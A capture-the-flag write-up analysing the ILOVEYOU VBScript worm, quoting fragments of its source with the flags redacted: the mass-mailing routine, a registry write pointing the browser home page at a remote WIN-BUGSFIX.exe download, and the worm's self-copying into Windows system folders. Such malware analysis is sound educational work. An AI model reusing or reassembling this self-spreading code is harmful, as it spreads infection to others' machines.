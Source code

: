 # ILOVEYOU

# Challange intro
```
Points: 
10

Category: 
Reverse Engineering

Cost: 
Free

Scenario:
ILOVEYOU the 3 magical words which have an impact in most of the people's life.
On the other hand, these 3 words don't need any introduction for the people in the Infosec industry.

Let's relive history by analysing the ‘ILOVEYOU’ malware.

This challenge should be completed in a virtual machine as it contains real malware.
```

## Q1, What is the text present as part of email when the victim received this malware?

My thought process here was to check the email body tag, where I could find the code

```
male.Recipients.Add(malead)
          male.Subject = "ILOVEYOU"
          male.Body = vbcrlf & "<FLAG>"
          male.Attachments.Add(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")
          male.Send
```
And by looking within the "male.body" we can read the mails content.

## Q2, What is the domain name that was added as the browser's homepage?

Homepages are based on register sub-keys/values (in most cases). So i started looking for the startpages keys for diffrent browsers.

```

regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\StartPage", "<FLAG>"/skladjflfdjghKJnwetryDGFikjUIyqwerWe546786324hjk4jnHHGbvbmKLJKjhkqj4w/WIN-BUGSFIX.exe"

```
By using ctrl + v I got a hit on the IE StartPage path in the code. 

## Q3, The malware replicated itself into 3 locations, what are they?

For this some fast research was needed. 

In the code I found this code snippet:

```
rem Finds special folders, such as system, temporary and windows folders.
  Set dirwin = fso.GetSpecialFolder(0)
  Set dirsystem = fso.GetSpecialFolder(1)
  Set dirtemp = fso.GetSpecialFolder(2)
  Set c = fso.GetFile(WScript.ScriptFullName)

  rem Copy itself into VBScript files <PART OF THE FLAG.vbs>, <PART OF THE FLAG.vbs> and
  rem <PART OF THE FLAG.TXT.VBS>
  c.Copy(dirsystem & "<PART OF THE FLAG>")
  c.Copy(dirwin & "\<PART OF THE FLAG>")
  c.Copy(dirsystem & "\<PART OF THE FLAG>")
````
To summirize in short, in VBS there is a "GetSpecialFolder" method. Where in this case the fso.GetSpecialFolder(1).
"GetSpecialFolder" becomes the object and the (number) becomes the folderspec.

```
0 = The Windows folder contains files installed by the Windows operating system. In this case 

1 = The System folder contains libraries, fonts, and device drivers. 

2 = The Temp folder is used to store temporary files. Its path is found in the TMP environment variable.

In this case: 
dirsystem --> C:\Windows\System32\
dirwin -- > C:\Windows\
```
Then we just add the the object + the file = C:\Windows\System32\<PART OF THE FLAG>

